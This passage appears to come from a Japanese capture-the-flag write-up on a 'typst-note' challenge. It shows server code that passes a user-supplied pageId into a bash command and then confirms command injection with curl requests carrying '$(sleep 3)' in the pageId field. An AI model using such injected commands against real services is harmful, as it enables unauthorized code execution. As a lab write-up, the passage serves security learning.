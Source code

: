 ```
                val pdfName = "\"${request.pageId.replace(Regex("""(?=["`\\])"""), "\\\\")}.pdf\""

                // Compile the Typst code into PDF
                Files.createDirectories(Paths.get("requests"))
                val compileProcess = ProcessBuilder("bash", "-c", "typst compile - requests/$pdfName").start()
                compileProcess.outputStream.use {
                    it.write(request.content.toByteArray())
                    it.flush()
                }
                if (compileProcess.waitFor() != 0) {
                    throw RuntimeException(compileProcess.errorStream.bufferedReader().readText())
                }

                logger.info("Received publish request: $pdfName")
                call.respondText("Publish request received", status = HttpStatusCode.OK)
            } catch (e: Exception) {
                // DO NOT respond with the error message for security reasons
                call.respondText("Error processing publish request", status = HttpStatusCode.BadRequest)
            }
        }
```
すると以下のような返答が返ってきた。  
![llm.png](images/llm.png)  
`pageId`に`$()`を入れ込むことで任意コマンドが実行できるようだ。  
試しに以下のように行う。  
```bash
$ time curl -X POST https://typst-note.web.cpctf.space/api/request-publish -H 'Content-Type: application/json' -d '{"pageId": "example","content": "test"}'
Publish request received
real    0m0.196s
user    0m0.040s
sys     0m0.013s
$ time curl -X POST https://typst-note.web.cpctf.space/api/request-publish -H 'Content-Type: application/json' -d '{"pageId": "$(sleep 3)","content": "test"}'
Error processing publish request
real    0m3.094s
user    0m0.076s
```